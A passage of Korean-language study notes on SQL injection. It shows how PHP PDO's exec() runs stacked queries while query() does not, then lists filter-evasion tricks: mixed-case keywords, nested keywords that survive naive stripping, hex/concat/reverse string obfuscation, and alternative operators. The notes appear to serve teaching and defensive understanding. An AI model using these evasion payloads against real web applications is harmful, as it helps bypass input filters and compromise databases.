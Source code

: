 PDO의 query 함수는 다중 쿼리를 지원하지 않고, 
exec 함수에서는 다중 쿼리를 실행한다는 차이점이 있음

```php
<?php
	$db1 = new PDO('sqlite:test1.db');
	$db2 = new PDO('sqlite:test2.db');
	$query = 'select 1234;create table test(test int);';
	$db1->query($query);
	$db2->exec($query);
?>
```

```bash
$ php test.php
$ ls -al test1.db test2.db
-rw-r--r-- 1 test test    0 Apr 29 11:21 test1.db # create table이 실행되지 않음
-rw-r--r-- 1 test test 2048 Apr 29 11:20 test2.db # create table이 실행됨
```


# 탐지 우회(필터링 우회)
### 대소문자 검사 미흡

```sql
UnIoN SeLecT 1,2,3
selECT SlEep(5)
```

### 탐지 과정 미흡

```sql
UNunionION SELselectECT 1,2 --
# => UNION SELECT 1,2 --  
```

### 문자열 검사 미흡

```sql
mysql> SELECT reverse('nimda'), concat('adm','in'), x'61646d696e', 0x61646d696e;
/*
+------------------+--------------------+---------------+--------------+
| reverse('nimda') | concat('adm','in') | x'61646d696e' | 0x61646d696e |
+------------------+--------------------+---------------+--------------+
| admin            | admin              | admin         | admin        |
+------------------+--------------------+---------------+--------------+
1 row in set (0.00 sec)
*/
```

### 연산자 검사 미흡
^, =, !=, %, _, /, *, &, &&, |, ||, >, <, XOR, DIV, LIKE, 
RLIKE, REGEXP, IS, IN, NOT, MATCH, AND, OR, BETWEEN, ISNULL ...
